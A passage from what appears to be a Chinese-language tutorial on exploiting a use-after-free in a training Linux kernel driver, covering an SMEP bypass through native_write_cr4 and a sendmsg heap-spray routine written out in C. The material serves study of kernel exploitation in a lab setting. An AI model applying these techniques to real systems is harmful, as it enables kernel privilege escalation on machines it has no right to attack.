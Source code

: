 报错结果如下：

![](http://upload-images.jianshu.io/upload_images/6349402-8b10fea84acfd99b.png) easy_uaf_fault.png

三、 漏洞利用
=======

### （1）绕过 SMEP

##### 1. 绕过 SMEP 防护方法

CR4 寄存器的第 20 位为 1，则表示开启了 SMEP，若执行到用户指令，就会报错`"BUG: unable to handle kernel paging request at 0xxxxxx"`。绕过 SMEP 的方法见我的笔记 [https://www.jianshu.com/p/6f1d2f3f5126](https://www.jianshu.com/p/6f1d2f3f5126)。不过最简单的方法是通过`native_write_cr4()`函数：

```
// /arch/x86/include/asm/special_insns.h
static inline void native_write_cr4(unsigned long val)
{
    asm volatile("mov %0,%%cr4": : "r" (val), "m" (__force_order));
}


```

本文用到的 vuln_driver 简化了利用过程，否则我们还需要控制第 1 个参数，所以利用目标就是：`global_uaf_obj->fn(global_uaf_obj->arg)` ---> `native_write_cr4(global...->arg)`。 也即执行`native_write_cr4(0x407f0)`即可。

##### 2. 堆喷函数

**sendmsg 注意**：分配堆块必须大于 44。

```
//用sendmsg构造堆喷，一个通用接口搞定，只需传入待执行的目标地址+参数
void use_after_free_sendmsg(int fd, size_t target, size_t arg)
{
    char buff[BUFF_SIZE];
    struct msghdr msg={0};
    struct sockaddr_in addr={0};
    int sockfd = socket(AF_INET,SOCK_DGRAM,0);
    // 布置堆喷数据
    memset(buff,0x43,sizeof buff);
    memcpy(buff+56,&arg,sizeof(long));
    memcpy(buff+56+(sizeof(long)),&target,sizeof(long));

    addr.sin_addr.s_addr=htonl(INADDR_LOOPBACK);
    addr.sin_family=AF_INET;
    addr.sin_port=htons(6666);

    // buff是堆喷射的数据，BUFF_SIZE是最后要调用KMALLOC申请的大小
    msg.msg_control=buff;
    msg.msg_controllen=BUFF_SIZE;
    msg.msg_name=(caddr_t)&addr;
    msg.msg_namelen= sizeof(addr);
    // 构造UAF对象
    ioctl(fd,ALLOC_UAF_OBJ,NULL);
    ioctl(fd,FREE_UAF_OBJ,NULL);
    //开始堆喷
    for (int i=0;i<10000;i++){
        sendmsg(sockfd,&msg,0);
    }
    //触发
    ioctl(fd,USE_UAF_OBJ,NULL);
}


```